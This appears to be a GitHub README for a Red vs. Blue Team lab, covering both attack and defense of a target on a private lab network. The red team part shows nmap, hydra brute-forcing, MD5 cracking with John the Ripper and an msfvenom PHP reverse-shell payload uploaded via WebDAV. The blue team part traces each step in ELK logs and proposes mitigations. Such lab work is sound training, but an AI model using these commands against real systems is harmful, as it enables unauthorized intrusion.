 ## Red vs. Blue Team Project

- **Network Topology**:

  ![](./Images/NetworkDiagram.png)
  - The following machines live on the network address range 192.168.1.0/24:
    - **Kali**: `192.168.1.90`
    - **ELK**: `192.168.1.100`
    - **Target**: `192.168.1.105`

### **Red Team - Security Assessment**

#### **Information Gathering**

Given the target IP address, the first step was to identify which ports are open and which services are running on those ports. I used Nmap to perform a version scan, default script scan, and saved the output to a file.

- **Command Used:**

```bash
	nmap -sC -sV -oN nmap_target 192.168.1.105.png
```
  ![](./Images/nmap_192.168.1.105.png)

- **Running Services"
  - `22/tcp ssh OpenSSH 7.6p1 Ubuntu`
  - `80/tcp http Apache httpd 2.4.29`


After casually browsing through the webserver on port 80, I discovered a hidden directory, company_folders/secret_folder and a list of users.

  ![](./Images/secret_folder.png)

#### **Exploitation**

The secret_folder requires authentication to access. I used hydra to perform a brute force attack.
- **Command Used:**
```bash
	hydra -l ashton -P rockyou.txt -s 80 -f 192.168.1.105 http-get /company_folders/secret_folder/
```

  ![](./Images/hydra_result.png)

The secret_folder contained a guide to connecting to the internal webdav server.
- **Credentials:** `ryan:d7dad0a5cd7c8376eeb50d69b3ccd352`
- `dav://192.168.1.105/webdav/`

Ryan user's password was hashed using md5, so I used John the Ripper to crack the hashed password.
- **Command Used:**
```bash
	john --format=raw-md5 hash
```

  ![](./Images/john_result.png)

Now that I have the ability to upload a file onto the server, I generated a PHP reverse meterpreter payload using msfvenom and uploaded it to the webdav server.
- **Command Used:**
```bash
	msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=4444 -o shell.php
```

After successfully uploading the payload, I accessed the payload on the webserver to start a meterpreter session to the listener.

  ![](./Images/webdav_directory.png)
  
  ![](./Images/meterpreter_session.png)



### **Blue Team - Incident Analysis**
  
#### **ELK Stack**
A considerable amount of data is available in the logs. Specifically, evidence of the following was obtained upon inspection:
    - Traffic from attack VM to target, including unusually high volume of requests
    - Access to sensitive data in the `secret_folder` directory
    - Brute-force attack against the HTTP server
    - POST request corresponding to upload of `shell.php`

  - **Identifying Unusually High Volume of Requests**: Logs indicate an unusual number of requests made to the URL `http://192.168.1.105/company_folder/secret_folder/`. The PacketBeat Flow graph from the dashboard shows that the attack began around 17:50. Note that `401 Unauthorized` is the top response and few `200 OK`, `207 Multi-Status`, and `404 Not Found` response status codes.

  ![](../Images/request_count.png)

  ![](../Images/packetbeat_flows.png)

  ![](../Images/HTTP_status_codes.png)

    - From the Blue Team perspective, 4 status codes of `200 OK` after 436,504 `401 Unauthorized` may be concerning. It indicates that the attacker was able to successfully gain credentials and access restricted resources.

  - **Access to Sensitive Data in `secret_folder`**: From the Kibana Discover page, a query for the resource `/company_folders/secret_folder/` also displays that `connect_to_corp_server` file had been accessed.

  ![](../Images/sensitive_data.png)

  - **HTTP Brute Force Attack**: Searching for `url.path: /company_folders/secret_folder/` shows conversations involving the sensitive data. Specifically, the results contain requests from the brute-forcing tool`Hydra`, identified under the `user_agent.original` section:

      ![](../Images/hydra_evidence.png)

  - **WebDAV Connection & Upload of `shell.php`**: The logs also indicate that an unauthorized actor was able to access protected data in the `webdav` directory. The `passwd.dav` and `shell.php` was accessed with `GET` request. After the `shell.php` file was requested, an unknown connection was made from source IP `192.168.1.105` to `192.168.1.90:4444`.

      ![](../Images/webdav.png)

      ![](../Images/shell.png)

#### **Mitigation**

  - Mitigation steps for each vulnerability above are provided below.
    - **High Volume of Traffic from Single Endpoint**
      - Rate-limiting traffic from a specific IP address would reduce the web server's susceptibility to denial of service conditions. It is also recommended to set up an alarm to trigger alerts against suspiciously fast series of requests that may be indicative of scanning.
    - **Access to sensitive data in the `secret_folder` directory**
      - The `secret_folder` directory should be protected with stronger authentication. It is also a good idea remove the secret_folder itself from the web server to prevent unauthorized actors from accessing the directory.
    - **Brute-force attack against the HTTP server**
      - Use the combination of stronger password policy, account timeout mechanism, account lockout mechanism, and CAPTCHA which are all good defensive mechanism to prevent brute force attacks against the HTTP server.
    - **POST request corresponding to upload of `shell.php`**
      - File uploads should require authentication. Create a whitelist of acceptable file formats to prevent executable files being uploaded to the server.

### Presentation

A sample slideshow is attached:
- [Report: Red vs. Blue Project] https://docs.google.com/presentation/d/1LOPgsDdWqI1YVW-HfsbMOTmNoviaAGlYJtnKYv28ckY/edit?usp=sharing